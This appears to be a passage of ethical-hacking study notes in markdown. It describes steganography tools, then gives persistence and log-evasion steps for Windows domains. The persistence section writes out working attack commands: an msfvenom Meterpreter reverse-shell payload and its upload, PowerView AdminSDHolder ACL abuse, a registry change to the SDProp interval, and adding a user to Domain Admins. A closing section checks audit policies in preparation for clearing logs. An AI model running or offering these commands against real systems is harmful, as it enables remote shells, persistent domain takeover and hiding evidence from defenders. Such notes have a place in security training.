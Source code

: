 
## <span style="color: #3498db; font-size: 0.8em;">  Image Steganography</span>

> Openstego.exe

Hide or extract data from a file.

* Hide data (Example: txt into a jpg)
Type the message or select the file (txt) > Select the file (jpg) > choose the output location to the stego file > Hide data

* Extract data (Example: txt from bmp or jpg)
Select the input stego file > Select the output folder > Enter the password > Extract data

> [StegOnline (georgeom.net)](https://stegonline.georgeom.net/upload)

It's an online tool to extract data from a file.

* Hide data:
Upload the file > Embebed files/data > Check the checkboxes under row 5 > Text option > Enter the text > Go > Download extracted data

* Extract data:
Extract files/data >  Check the checkboxes under row 5 > Go 


## <span style="color: #3498db; font-size: 0.8em;">  Maintain Persistence</span>

>  Upload a reverse in the system
- `msfvenom -p windows/meterpreter/reverse_tcp lhost=ip lport=port -f exe > payload.exe`
- meterpreter> `upload /home/attacker/payload.exe`
- and create a new multi/handler

> PowerView and add a user, set a privileges and a group
- meterpreter> `upload -r /home/attacker/PowerTools-master C:\\\\Users\\\\Administrator\\\\Downloads`
- meterpreter> `shell` 
- `powershell`
- `cd C:\\\\Users\\\\Administrator\\\\Downloads\\\\PowerView`
- PS> `Add-ObjectAcl -TargetADSprefix 'CN=ADminSDHolder,CN=System' -PrincipalSamAccountName user -Verbose -Rights All`
- PS> `Get-ObjectAcl -SamAccountName "user" -ResolveGUIDs`
- PS> `REG ADD HKLM\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters /V AdminSDProtectFrecuency /T REG_DWORD /F /D 300`
- PS> `net group "Domain Admins" user /add /domain`


## <span style="color: #3498db; font-size: 0.8em;">  Clear logs to hide the evidence of compromise</span>

>  View policies and check wheter the audit policies are enabled
- cmd> `auditpol /get /category:*`
